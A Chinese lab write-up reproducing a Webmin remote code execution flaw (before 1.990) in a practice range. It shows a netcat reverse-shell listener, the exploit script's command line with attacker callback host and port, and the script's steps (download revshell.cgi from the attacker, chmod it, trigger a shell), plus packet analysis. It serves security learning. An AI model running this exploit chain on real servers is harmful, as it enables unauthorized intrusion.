## webmin远程代码执行漏洞复现

### 漏洞解释
Webmin是一个功能强大且灵活的基于 Web 的服务器管理控制面板，适用于类Unix系统。Webmin允许用户配置操作系统内部，例如用户、磁盘配额、服务或配置文件，以及修改和控制开源应用程序，例如Apache HTTPServer、PHP或MySQL。

### 情景分析
首先进入靶场看见登陆界面，靶场描述中有账号密码



然后根据账号密码进入后台，根据观察后台的整体情况，可以发现漏洞较多，如
- 存在外部命令窗，且外部命令窗存在任意命令都可以执行


- 存在文件管理器且文件管理器可以对任意文件进行读取


- 允许任意文件上床且上传路径可以自定义，也可远程链接下载


### 解析漏洞原理
故可以看出因为文件管理器模块影响，任何没有文件管理器模块访问权限的经过身份验证的低权限用户都可以与文件管理器功能交互，且呢个随意对对文件进行上传下载，可以尝试通过远程下载文件和修改文件权限来进行漏洞利用

### 版本
漏洞Webmin Webmin < Webmin Webmin1.990    //1.990版本之前均受影响
需要webmin的账号密码账户: root 密码: password
session_login.cgi存在
### 实验过程
#### 靶机 
启动webmin镜像，进入webmin的web页面

#### 攻击机
攻击机监听端口9999，准备获取反弹shell
```bash
    nc -lvp 监听端口
```

攻击机执行POC脚本
```bash
    python3 exp.py -t http://目标IP:目标PORT -c root:password -LS vps_ip:vps_port -L vps_ip -P vps_port
 
    -t    指定目标
    -c    账号:密码
    -LS   指定开启http服务的ip:port
    -L    反弹shell的对象ip
    -P    反弹shell的对象port
```

攻击成功，反弹回shell
攻击机得到权限，找到flg

在webmin中找到flg



### 脚本详解
``` bash
    1.在当前目录创建revshell.cgi文件

    2.尝试登录

    3.利用python3python_server是创建了一个httpserver用于服务器下载在本地开启http服务

    4.目标服务器下载我们服务器上的revshell.cgi文件

    5.用webmin自带的赋权功能进行普通用户赋权,修改revshell.cgi文件的权限，其可以执行

    6.通过http访问revshell.cgi，自动执行后进行反弹shell操作达到RCE的效果

    7.最后kill掉进程

```




### 漏洞抓包分析
首先设定一个过滤，因为这是一个提权漏洞，通过漏洞发送POST请求方式去请求session_login.cgi,如下图所示


下面两张图是脚本去请求session_login.cgi


这个包中发现攻击机下载路径以及下载后目标机文件保存路径





数据包内容：对下载完成文件进行了赋予执行权


### 遇见困难
